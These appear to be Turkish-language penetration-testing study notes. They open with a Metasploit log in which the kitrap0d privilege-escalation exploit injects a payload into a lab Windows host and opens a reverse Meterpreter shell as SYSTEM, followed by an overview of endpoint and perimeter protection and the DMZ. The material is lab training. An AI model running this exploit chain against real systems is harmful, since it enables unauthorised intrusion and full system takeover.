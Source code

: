 ```shell-session

SESSION => 3


msf6 exploit(windows/local/ms10_015_kitrap0d) > run

[*] Started reverse TCP handler on 10.10.14.5:1338 
[*] Launching notepad to host the exploit...
[+] Process 3552 launched.
[*] Reflectively injecting the exploit DLL into 3552...
[*] Injecting exploit into 3552 ...
[*] Exploit injected. Injecting payload into 3552...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (176195 bytes) to 10.10.10.5
[*] Meterpreter session 4 opened (10.10.14.5:1338 -> 10.10.10.5:49162) at 2020-08-28 17:15:56 +0000


meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM
```


# Firewall and IDS/IPS Evasion
- Endpoint protection
- Perimeter protection (Çevre koruma)

## **Endpoint Protection**  

`Endpoint protection`, tek amacı ağ üzerindeki tek bir hostu korumak olan herhangi bir yerelleştirilmiş cihaz veya hizmeti ifade eder. Bu host kişisel bir bilgisayar, kurumsal bir workstation ya da bir ağın De-Militarized Zone (`DMZ`) bölgesindeki bir sunucu olabilir.  

Endpoint koruması genellikle `Antivirus` Koruması, `Anti-Malware` Protection (bu `bloatware`, spyware, `adware`, scareware, ransomware içerir), `Firewall` ve `Anti-DDOS` 'u aynı yazılım paketi altında bir arada bulunduran yazılım paketleri şeklinde gelir. Çoğumuz evimizdeki bilgisayarlarımızda veya işyerimizdeki iş istasyonlarında endpoint koruma yazılımı çalıştırdığımız için bu forma ikincisinden daha aşinayız. Avast, Nod32, Malwarebytes ve BitDefender sadece bazı güncel isimlerdir.


#### **Perimeter Protection**  

`Perimeter protection` genellikle ağ perimeter edge üzerinde fiziksel veya sanallaştırılmış cihazlarda bulunur. Bu `edge device` 'ların kendileri ağın `içine` `dışarıdan`, başka bir deyişle `genelden` `özele` erişim sağlar.  

Bu iki bölge arasında, bazı durumlarda, daha önce bahsedilen De-Militarized Zone (`DMZ`) olarak adlandırılan üçüncü bir bölge de bulacağız. Bu, `iç ağlarınkinden` daha `düşük güvenlik politikası seviyesine` sahip bir `bölgedir`, ancak geniş İnternet olan `dış bölgeden` daha yüksek bir `güven seviyesine` sahiptir. Burası kamuya açık sunucuların bulunduğu sanal alandır; bu sunucular kamuya açık müşteriler için İnternet'ten veri iter ve çeker ancak aynı zamanda içeriden yönetilir ve sunulan bilgileri güncel tutmak ve sunucuların müşterilerini memnun etmek için yamalar, bilgiler ve diğer verilerle güncellenir.
